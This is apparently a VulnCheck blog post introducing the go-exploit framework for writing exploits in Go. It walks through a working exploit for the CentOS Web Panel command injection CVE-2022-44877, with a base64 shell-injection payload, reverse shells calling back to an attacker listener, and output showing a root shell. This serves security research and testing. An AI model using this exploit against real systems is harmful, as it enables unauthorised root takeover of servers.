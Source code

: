 ```yaml
---
title: "Introducing go-exploit - An Exploit Framework for Go - Blog - VulnCheck"
date: 2023-05-25T00:00:00.000Z
draft: false
type: posts
categories: 
- 
---
```

# Introducing go-exploit - An Exploit Framework for Go - Blog - VulnCheck

<br/>

<br/>
\\nVulnCheck is excited to announce the open-source release of our \[in-house exploit framework, \`go-exploit\`\](https://github.com/vulncheck-oss/go-exploit). Designed with simplicity and portability in mind, \`go-exploit\` empowers exploit developers to create compact, self-contained, and consistent exploits.\\n\\nMany proof-of-concept exploits rely on interpreted languages with complicated packaging systems. They implement wildly differing user interfaces, and have limited ability to be executed within a target network. Some exploits are integrated into massive frameworks that are burdened by years of features and dependencies which overwhelm developers and hinder the attacker's ability to deploy the exploits from unconventional locations.\\n\\nTo overcome these challenges, \`go-exploit\` offers a lightweight framework with minimal dependencies, written in \[Go\](https://go.dev/)—a language renowned for its portability and cross-compilation capabilities. The framework strikes a balance between simplicity for rapid proof-of-concept development and the inclusion of sophisticated built-in features for operational use.\\n\\n## Key Features and Capabilities\\n\\n1. \*\*Cross-Platform Portability:\*\* Developed in Go, \`go-exploit\` offers seamless cross-platform compatibility. Whether you need to execute the exploit on Windows, Linux, macOS, or an embedded system, the framework ensures consistent functionality across different operating systems, thanks to Go's ability to compile to native executables.\\n2. \*\*A Single Executable:\*\* Each exploit compiles down to a single native executable, free from external dependencies. Due to the design of the framework, unused (or unwanted) features are completely eliminated from the compiled binary.\\n3. \*\*Defined Exploitation Stages:\*\* \`go-exploit\` introduces a structured approach to exploitation with three distinct stages: target validation, version checking, and exploitation. This clear separation allows exploit developers to focus on specific aspects of the exploit development process, enhancing efficiency and code organization.\\n4. \*\*Consistent User Interface:\*\* The framework defines a flexible yet consistent user interface that abstracts away complexities, providing a streamlined experience for exploit developers and users.\\n5. \*\*Builtin Command and Control:\*\* \`go-exploit\` includes built-in logic for establishing connections to bind shells or accepting encrypted or unencrypted reverse shells.\\n6. \*\*Pre-defined Payloads:\*\* \`go-exploit\` comes with a collection of pre-created exploit payloads including traditional “lolbin” reverse shells and bind shells, as well as more complicated payloads like Java gadgets. \`go-exploit\` also contains all the infrastructure needed for exploiting JNDI LDAP issues (e.g. \[Log4Shell\](https://en.wikipedia.org/wiki/Log4Shell), \[CVE-2023-21839\](https://nvd.nist.gov/vuln/detail/CVE-2023-21839), etc).\\n\\n## Creating an Exploit with \`go-exploit\`\\n\\nDeveloping a new exploit using \`go-exploit\` is designed to be a straightforward and efficient process. At a high level, the exploit developer only needs to create four essential functions:\\n\\n1. \`main()\`: This function is responsible for configuring the exploit type and defining the supported command and control options.\\n2. \`ValidateTarget()\`: The purpose of this function is to validate that the target system meets the criteria of the intended victim.\\n3. \`CheckVersion()\`: This function is used to confirm that the target system is a susceptible host by checking its version or specific characteristics.\\n4. \`RunExploit()\`: In this function, the exploitation logic is implemented, enabling the actual exploitation of the target system.\\n\\nTo provide a starting point, a skeleton exploit follows the structure outlined below:\\n\\n\`\`\`go\\npackage main\\n\\nimport (\\n "github.com/vulncheck-oss/go-exploit"\\n "github.com/vulncheck-oss/go-exploit/c2"\\n "github.com/vulncheck-oss/go-exploit/config"\\n)\\n\\ntype MyExploit struct{}\\n\\nfunc (sploit MyExploit) ValidateTarget(conf \*config.Config) bool {\\n return false\\n}\\n\\nfunc (sploit MyExploit) CheckVersion(conf \*config.Config) exploit.VersionCheckType {\\n return exploit.NotImplemented\\n}\\n\\nfunc (sploit MyExploit) RunExploit(conf \*config.Config) bool {\\n return true\\n}\\n\\nfunc main() {\\n supportedC2 := \[\]c2.Impl{\\n c2.SimpleShellServer,\\n c2.SimpleShellClient,\\n }\\n conf := config.New(config.CodeExecution, supportedC2, "My Target", "CVE-2023-1270", 80)\\n\\n sploit := MyExploit{}\\n exploit.RunProgram(sploit, conf)\\n}\\n\`\`\`\\n\\nTo build the skeleton exploit, you'll need to create a \`go.mod\` and \`go.sum\` file for the project. This can be done using the \`go mod\` command. The following commands will download and validate the most recent version of \`go-exploit\` and create the necessary \`go.mod\` and \`go.sum\` files:\\n\\n\`\`\`sh\\ngo mod init github.com/username/example\\nGO111MODULE=on go mod tidy\\n\`\`\`\\n\\nTo compile the skeleton exploit, you can use a simple command like the one shown below:\\n\\n\`\`\`sh\\nGO111MODULE=on go build -o exploit ./main.go\\n\`\`\`\\n\\nRunning this command will compile the skeleton exploit, and the resulting executable will be named \`exploit\`. If you want to customize the output filename, you can change the value after the \`-o\` flag.\\n\\nNow that you have the instructions for setting up and compiling your \`go-exploit\` exploit, let's move on to a real example to further illustrate its usage.\\n\\n\\n## A \`go-exploit\` for CVE-2022-44877\\n\\nIn this section, we will examine an example exploit for \[CVE-2022-44877\](https://nvd.nist.gov/vuln/detail/CVE-2022-44877) (CentOS Web Panel). CVE-2022-44877 is a trivial unauthenticated and remote command injection vulnerability so it’s great as a simple example. Let's start with the exploit's \`main()\` function:\\n\\n\`\`\`go\\nfunc main() {\\n supportedC2 := \[\]c2.Impl{\\n c2.SSLShellServer,\\n c2.SimpleShellServer,\\n c2.SimpleShellClient,\\n }\\n conf := config.New(config.CodeExecution, supportedC2, "CentOS Web Panel", "CVE-2022-44877", 2031)\\n sploit := CWPInjection{}\\n exploit.RunProgram(sploit, conf)\\n}\\n\`\`\`\\n\\nThere are two important aspects in the \`main()\` function. First, the exploit informs the framework about the supported command and control variants. This particular exploit supports three variants:\\n\\n1. \`c2.SSLShellServer\` (default): An encrypted reverse shell.\\n2. \`c2.SimpleShellServer\`: An unencrypted reverse shell.\\n3. \`c2.SimpleShellClient\`: An unencrypted bind shell.\\n\\nAdditionally, the exploit specifies that it is a \`CodeExecution\` exploit, which means it will run code directly on the victim host. The exploit type affects the command line interface and determines which command and control options are supported. Refer to our documentation for information on other exploit types.\\n\\nFor this example, we will skip the \`ValidateTarget\` and \`CheckVersion\` functions (you can find their implementations in our \[GitHub examples\](https://github.com/vulncheck-oss/go-exploit/tree/main/examples/cve-2022-44877)), and instead, focus on the \`RunExploit\` function. It looks like this:\\n\\n\\n\`\`\`go\\nfunc (sploit CWPInjection) RunExploit(conf \*config.Config) bool {\\n generated, ok := generatePayload(conf)\\n if !ok {\\n return false\\n }\\n\\n loginAttempt := map\[string\]string{\\n "username": "%72%6f%6F%74", // root encoded\\n "password": random.RandLetters(8),\\n "commit": "Login",\\n }\\n target := protocol.GenerateURL(conf.Rhost, conf.Rport, conf.SSL, "/login/index.php")\\n output.PrintSuccess("Sending exploit to " + target)\\n\\n // t=1 ET bypass\\n resp, \_, ok := protocol.HTTPSendAndRecvURLEncoded("POST", target+"?t=1&login="+generated, loginAttempt)\\n if !ok {\\n return false\\n }\\n\\n if resp.StatusCode != 200 {\\n output.PrintfError("Received an unexpected HTTP status code: %d", resp.StatusCode)\\n\\n return false\\n }\\n output.PrintStatus("Done")\\n\\n return true\\n}\\n\`\`\`\\n\\nThe \`RunExploit\` function generates the required payload using the \`generatePayload\` function and then constructs the HTTP request that triggers the payload execution. Here's the implementation of \`generatePayload\`:\\n\\n\`\`\`go\\nfunc generatePayload(conf \*config.Config) (string, bool) {\\n generated := ""\\n\\n switch conf.C2Type {\\n case c2.SSLShellServer:\\n output.PrintfStatus("Sending an SSL reverse shell payload for port %s:%d", conf.Lhost, conf.Lport)\\n generated = payload.ReverseShellMknodOpenSSL(conf.Lhost, conf.Lport)\\n case c2.SimpleShellServer:\\n output.PrintfStatus("Sending a reverse shell payload for port %s:%d", conf.Lhost, conf.Lport)\\n generated = payload.ReverseShellBash(conf.Lhost, conf.Lport)\\n case c2.SimpleShellClient:\\n output.PrintfStatus("Sending a bind shell for port %d", conf.Bport)\\n generated = payload.BindShellMkfifoNetcat(conf.Bport)\\n default:\\n output.PrintError("Invalid payload")\\n\\n return "", false\\n }\\n\\n payload64 := b64.StdEncoding.EncodeToString(\[\]byte(generated))\\n generated = "\`echo${IFS}" + payload64 + "|base64${IFS}-d|/bin/sh\`"\\n\\n return generated, true\\n}\\n\`\`\`\\n\\nAbove, we can see the implementation of the payloads for the three supported command and control variants. In this example, each variant can utilize a predefined payload provided by the exploit framework.\\n\\nFinally, the exploit can be executed against the target. The output might look like this:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~/go-exploit/examples/cve-2022-44877$ ./cve-2022-44877 -a -c -v -e -rhost 10.9.49.214 -lhost 10.9.49.186 -lport 1270\\n\[\*\] Validating the remote target is a CentOS Web Panel installation\\n\[+\] Target validation succeeded!\\n\[\*\] Running a version check on the remote target\\n\[-\] broken.jpg has been modified since April 3, 2022. This instance \*might\* be vulnerable.\\n\[\*\] The target \*might\* be a vulnerable version. Continuing.\\n\[\*\] Generating a TLS Certificate\\n\[\*\] Starting TLS listener on 10.9.49.186:1270\\n\[\*\] Sending an SSL reverse shell payload for port 10.9.49.186:1270\\n\[+\] Sending exploit to https://10.9.49.214:2031/login/index.php\\n\[+\] Caught new shell from 10.9.49.214:35868\\n\[\*\] Active shell from 10.9.49.214:35868\\n$ whoami\\nsh: no job control in this shell\\nsh-4.2# whoami\\nroot\\n$ pwd\\npwd\\n/tmp\\n$\\n\`\`\`\\n\\n## Conclusion \\n\\n\`go-exploit\` provides a simple and efficient way to develop sophisticated and portable exploits. While there are several other existing exploit frameworks available, none offer the same experience as \`go-exploit\`. If you are interested in contributing to \`go-exploit\` or have feedback on your own experience developing exploits, we would love to hear from you! Visit \[\`go-exploit\` on GitHub\](https://github.com/vulncheck-oss/go-exploit) to get involved.\\n\\n

#### [Source](https://vulncheck.com/blog/go-exploit)

<br/>
---
